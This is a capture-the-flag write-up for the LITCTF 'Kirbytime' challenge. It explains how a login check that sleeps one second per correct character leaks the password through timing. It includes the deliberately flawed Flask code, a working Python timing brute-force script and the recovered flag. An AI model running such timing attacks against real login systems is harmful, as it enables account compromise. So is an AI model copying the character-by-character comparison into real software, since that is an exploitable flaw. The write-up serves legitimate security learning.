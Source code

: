 ```yaml
---
title: Kirbytime
date : 2024-08-13 10:00:00 +0530
categories: [litctf]
tags: [litctf, ctf]
description: kirbytime
---
```


## Description

Welcome to Kirby's Website.

## Source Code

```python
@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'ABCDEFG'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)
```

![kirby1](/assets/posts/LITCTF/kirby1.png)

## Analysis

The website is a simple login page. We have to enter the correct password to get the flag. The password is the flag.

So the password checker is interesting. The first condition is very simple which is password is 7 characters long. The second condition is where the magic happens.

The 2nd function checks the password character by character. If the character is correct it waits for 1 second. If the character is incorrect it returns incorrect.

## How to abuse this

So the condition of `time.sleep(1)` helps us indicate if the character we entered is correct or not. If the character is correct it waits for 1 more second ie. Our wait time increases as the correct characters increase.

So we can bruteforce the password character by character. Which makes the usual `52^7` bruteforce to `52*7` bruteforce which is very doable. ( considering only alphabets )

## Bruteforce Script

So we can write a script where we calculate the delay and if the delay is increased we can move to the next character as that will be the correct character.

```python
import requests 
import time

url = "<url>"
def brute_password():
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = "aaaaaaa" #kBySlaY
    i,j,p = 0,0,0
    while True:
        while j < len(chars):
            # see the delay. 
            starttime = time.time()
            response = requests.post(url, data={"password": password}).text
            endtime = time.time()

            if "yayy! hi kirby" in response:
                return password
            delay = endtime - starttime

            i = int(delay) #flooring the delay. ( note if your internet is slow/ you are far away from server u might need to subtract some value from delay, I had a avg of 0.5s response time)
            if i > p:
                p = i #previous correct character count
                j = 0
            password = password[:i] + chars[j] + password[i+1:]
            j+=1

password = brute_password()
print(f"Password found: {password}") #kBySlaY
```

Now this script does take some time ~30-40 minutes to get the flag. I tried to use conconcurrency but the server was not responding well to concurrent requests as it did on my local instance. So I had to go with a single request at a time approach.

Tested the password we got once and submitted the flag.

![kirby2](/assets/posts/LITCTF/kirby2.png)

> `Flag: LITCTF{kBySlaY}`

---

[back to index](/posts/LIT-Index/)